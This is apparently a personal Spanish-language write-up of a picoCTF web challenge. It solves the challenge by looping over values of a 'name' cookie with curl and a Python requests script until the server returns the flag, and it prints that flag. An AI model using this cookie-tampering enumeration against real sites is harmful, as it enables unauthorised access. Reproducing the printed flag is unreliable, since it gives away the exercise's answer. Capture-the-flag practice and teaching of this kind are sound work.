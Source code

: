 #notas_hacking
# Reto
## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)
## Solución
Si ingresas una galleta que no es valida dentro de la cookie name asigna un valor de -1, si se pone snickerdoodle regresa un 0, si se cambia a 1 u otro numero natural es una cookie correcta pero no la especial
 ```bash
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
 ```
 o en `python`
 ```python
import requests
import re

url = "http://mercury.picoctf.net:27177/check"

for i in range(20):
        cookies = {'name':'{}'.format(i)}
        r = requests.get(url, cookies=cookies)
        if 'picoCTF{' in r.text:
                flag = re.findall('picoCTF{.*}', r.text)[0]
                print(flag)
 ```
 ```bash
┌──(kali㉿kali)-[~/retos]
└─$ python exp.py
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
 ```
## Notas
## Referencias
